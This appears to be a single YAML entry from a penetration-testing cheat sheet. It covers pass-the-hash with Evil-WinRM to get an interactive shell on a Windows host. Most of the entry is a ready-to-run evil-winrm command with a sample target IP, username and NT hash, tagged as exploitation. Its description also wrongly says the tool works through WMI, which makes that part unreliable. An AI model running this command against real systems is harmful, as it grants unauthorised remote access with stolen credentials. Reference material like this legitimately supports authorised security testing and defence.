 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Evil-WinRM supports passing the victim's NT hash for authorization.

  Command Reference:

  	Target IP: 10.10.10.1

  	Username: john

  	NT Hash: c23b2e293fa0d312de6f59fd6d58eae3


command: |
  evil-winrm -i 10.10.10.1 -u john -H c23b2e293fa0d312de6f59fd6d58eae3
items:
  - Password
  - NT Hash
services:
  - WMI
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Pass the Hash
references:
  - https://github.com/Hackplayers/evil-winrm
---
```

